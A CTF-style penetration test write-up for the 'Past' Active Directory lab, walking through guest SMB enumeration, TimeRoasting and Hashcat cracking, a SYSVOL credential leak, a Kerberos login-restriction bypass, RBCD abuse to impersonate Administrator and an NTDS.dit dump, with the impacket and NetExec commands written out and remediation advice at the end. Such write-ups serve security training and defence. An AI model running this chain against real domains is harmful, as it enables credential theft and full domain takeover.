+++
date = '2026-08-10T17:00:00+03:00'
draft = false
title = 'Past — HackSmarter'
tags = ["HackSmarter", "Active Directory", "Windows", "Medium", "TimeRoasting", "Hashcat", "SYSVOL", "BloodHound", "GenericAll", "Resource-Based Constrained Delegation", "Kerberos", "DCSync", "NTDS.dit", "WinRM", "Privilege Escalation", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Objective

> You have been hired by Hack Smarter to perform a Penetration Test on Past Systems Inc. During your call with the client, they stated they are currently adding new machines to the network.

### Initial Access

The client has provided you with VPN access to their internal network, but no credentials.

### Author

- [Ryan Yager](https://www.linkedin.com/in/ryan-yager-442a4964/)

## Overview

This writeup covers the full attack path taken against the `past.local` Active Directory environment of Past Systems Inc. Starting with nothing but VPN access and a set of found usernames, the chain involved SMB enumeration with the guest account, a TimeRoasting attack to crack a machine account password, credential discovery in the SYSVOL scripts folder, a Kerberos ticket-based login restriction bypass, and abuse of a **GenericAll** object control to perform a Resource-Based Constrained Delegation (RBCD) attack. The final outcome was a Domain Admin ticket, an NTDS.dit dump, and administrative WinRM access.

**Key Findings:**

- **Domain:** `past.local` (DC: `EC2AMAZ-A5O4OL8.past.local`, Windows Server 2016)
- **Initial foothold:** Machine account password recovered via TimeRoasting and Hashcat
- **Credentials leak:** Plaintext credentials for `tyler` stored in the SYSVOL scripts folder
- **Login restriction bypass:** Kerberos ticket authentication bypassed `tyler`'s logon restrictions
- **Domain compromise:** GenericAll abuse chained into an RBCD attack to impersonate `Administrator` and dump NTDS.dit

## Step 1: Reconnaissance and Enumeration

The assessment began with a full port scan against the target IP (10.1.162.214) to identify running services.

```
nmap -sV -sC -p- 10.1.162.214
```

```
PORT      STATE SERVICE       REASON          VERSION
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-08-09 09:06:54Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: past.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 126 Windows Server 2016 Datacenter 14393 microsoft-ds (workgroup: PAST)
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: PAST
|   NetBIOS_Domain_Name: PAST
|   NetBIOS_Computer_Name: EC2AMAZ-A5O4OL8
|   DNS_Domain_Name: past.local
|   DNS_Computer_Name: EC2AMAZ-A5O4OL8.past.local
|   DNS_Tree_Name: past.local
|   Product_Version: 10.0.14393
|_  System_Time: 2026-08-09T09:08:09+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  unknown       syn-ack ttl 126
49673/tcp open  unknown       syn-ack ttl 126
49674/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  unknown       syn-ack ttl 126
49681/tcp open  unknown       syn-ack ttl 126
49696/tcp open  unknown       syn-ack ttl 126
49705/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

**Key Findings:**

- The host is a domain controller running Windows Server 2016, identified as `EC2AMAZ-A5O4OL8.past.local`.
- Standard Active Directory services are present: Kerberos (88), LDAP (389/636), SMB (139/445), RDP (3389), and WinRM (5985).
- The domain was identified as `past.local` with the NetBIOS name `PAST`.
- No web server or SQL service was exposed, meaning the attack surface is limited to AD and SMB.

### SMB Enumeration

SMB enumeration was attempted with NetExec using anonymous access.



Attempting to list the shares without valid credentials failed.



User enumeration via `rpcclient` also failed because the tool requires credentials.



As a next step, I tried to perform a share listing using the guest account with an empty password, which successfully enumerated the shares.

```
nxc smb 10.1.162.214 -u guest -p '' --shares
```



The guest user has read access on a non-standard share.

### User Enumeration

Since the guest account was usable, user enumeration was performed over SMB.

```
nxc smb 10.1.162.214 -u guest -p '' --users
```



A RID brute-force was also carried out to enumerate all objects in the domain.

```
nxc smb 10.1.162.214 -u guest -p '' --rid-brute
```



Filtering the results for user SIDs isolates the actual user accounts from the well-known domain groups.

```
nxc smb 10.1.162.214 -u guest -p '' --rid-brute | grep 'SidTypeUser'
```



### Accessing the Share

Using the guest account, I accessed the non-standard share that had been discovered.



The share contained a list of machines in the environment, which I added to my hosts file for easier name resolution.



### AS-REP Roasting

Using the discovered usernames, I attempted to perform AS-REP roasting. None of the accounts had Kerberos pre-authentication disabled, so the attack did not yield any hashes.

```
impacket-GetNPUsers past.local/ -usersfile users.txt -no-pass -dc-ip 10.1.162.214
```



### TimeRoasting

At this point I did not have much to work with and had run into several rabbit holes during enumeration.



I decided to try TimeRoasting against the domain, which harvests hashes from the `lastLogonTimestamp` attribute of computer accounts using the guest account.

```
nxc smb 10.1.162.214 -u guest -p '' -M timeroast
```



I ran into some issues with John the Ripper while cracking the captured hashes, so I switched to Hashcat instead.

```
hashcat -m 31300 hashes.txt --color-cracked
```

Only one hash was successfully cracked.



## Step 2: Initial Access

### Password Spraying

The cracked password belonged to a machine account. Spraying this password against the environment successfully authenticated to one machine. I also noted that one of the machines had login restrictions in place.



### SYSVOL Share

Share listing using the machine account revealed that the account has read access on the SYSVOL share.





Accessing the SYSVOL share:



Inside the scripts directory, a file contained user credentials for `tyler`.





I then authenticated with `tyler`'s account using the newly obtained credentials.



## Step 3: Internal Enumeration with BloodHound

To map out the domain, a BloodHound collection was performed using the compromised machine account.

```
bloodhound-python -u 'APPDEV01$' -p '<REDACTED>' -d past.local -ns 10.1.162.214 -c All
```

From the BloodHound output, the machine account does not have any special privileges.



Checking out `tyler`'s account, which had login restrictions, revealed that the user has outbound **GenericAll** control.





The machine account holds DCSync rights over the domain, so if it could be compromised it would be a clear path to Domain Admin.



## Step 4: Bypassing the Login Restriction

Since there was no other way of bypassing the login restriction on `tyler`'s account, I decided to authenticate using a Kerberos ticket instead of the standard password exchange.

Requesting the ticket:

```
impacket-getTGT past.local/'tyler':'<REDACTED>' -dc-ip 10.1.162.214
```

```
nxc smb 10.1.162.214 -u 'tyler' -k --use-kcache
```

This bypassed the restrictions and authenticated successfully with Kerberos.



A share listing showed that the user has read/write access to the `C$` share, which stands out.



## Step 5: Privilege Escalation via Resource-Based Constrained Delegation

Back to BloodHound to exploit the **GenericAll** permission held by `tyler`.





The attack chain was guided by the HackTricks documentation on Resource-Based Constrained Delegation.



### Step 1: Create an Attacker-Controlled Machine

A new machine account was added to the domain, fully controlled by us.

```
impacket-addcomputer -computer-name 'KAOS$' -computer-pass '<REDACTED>' \
  -dc-host EC2AMAZ-A5O4OL8.past.local -k -no-pass 'past.local/tyler'
```



### Step 2: Grant RBCD on the Target to the Controlled Machine

Using `tyler`'s GenericAll permission, the ability to delegate to the target computer was granted to our controlled machine account.

```
impacket-rbcd past.local/tyler -k -no-pass \
  -delegate-to 'EC2AMAZ-A5O4OL8$' -delegate-from 'KAOS$' -action write
```



### Step 3: Get a TGT for the New Controlled Computer

A Ticket Granting Ticket was requested for the new machine account.

```
impacket-getTGT past.local/'KAOS$':'<REDACTED>' -dc-ip 10.1.162.214
```



### Step 4: Impersonate the Administrator

Using the RBCD configuration, a service ticket for the CIFS service was requested while impersonating the `Administrator`.

```
impacket-getST -spn cifs/EC2AMAZ-A5O4OL8.past.local -impersonate administrator \
  -k -no-pass -dc-ip 10.1.162.214 past.local/'KAOS$'
```



## Step 6: Domain Compromise

With the Administrator service ticket, the NTDS.dit secrets were dumped using the Kerberos ticket.

```
nxc smb 10.1.162.214 -u administrator -k --use-kcache --ntds
```



Using the obtained Administrator NTLM hash, I authenticated over WinRM, achieving full remote access to the domain controller.



## Step 7: Finding Ryan's Password

The final objective was to locate the password for Ryan's account. The PowerShell history location was checked on the domain controller.

```
(Get-PSReadlineOption).HistorySavePath
```

## Resources

- [HackTricks — Resource-Based Constrained Delegation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html)

## Conclusion

This engagement demonstrated a full Active Directory domain compromise starting from nothing but VPN access:

1. **SMB guest enumeration** revealed a non-standard share and enabled user enumeration via RID brute-force.
2. **TimeRoasting** harvested computer account hashes, and one was cracked with **Hashcat**.
3. **Password spraying** with the cracked machine account password granted access to SMB shares.
4. **SYSVOL scripts folder** leaked plaintext credentials for `tyler`.
5. **Kerberos ticket authentication** bypassed `tyler`'s logon-hour restrictions.
6. **GenericAll abuse** enabled a Resource-Based Constrained Delegation attack.
7. An **attacker-controlled machine account** (`KAOS$`) was used to impersonate `Administrator` and dump **NTDS.dit**.
8. The Administrator **NTLM hash** provided full WinRM access to the domain controller.

To secure the environment, the following remediations are recommended:

- **Harden SMB guest access:** Disable the guest account and the null-session fallback to prevent unauthenticated share and user enumeration.
- **Enable TimeRoasting mitigations:** Harden `lastLogonTimestamp` replication access and monitor for unexpected TimeRoast queries.
- **Audit the SYSVOL scripts folder:** Remove plaintext credentials and secrets from Group Policy scripts, and restrict read access to SYSVOL.
- **Enforce strong machine account passwords:** Machine account passwords should be random and crack-resistant.
- **Remove excessive object control:** Audit and revoke `GenericAll` ACLs, especially on computer accounts in the environment.
- **Monitor for RBCD abuse:** Alert on modifications to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute and on new machine accounts created with `addcomputer`.
- **Enforce tiered administration:** Separate administrative accounts from standard user accounts and apply strict logon restrictions consistently.
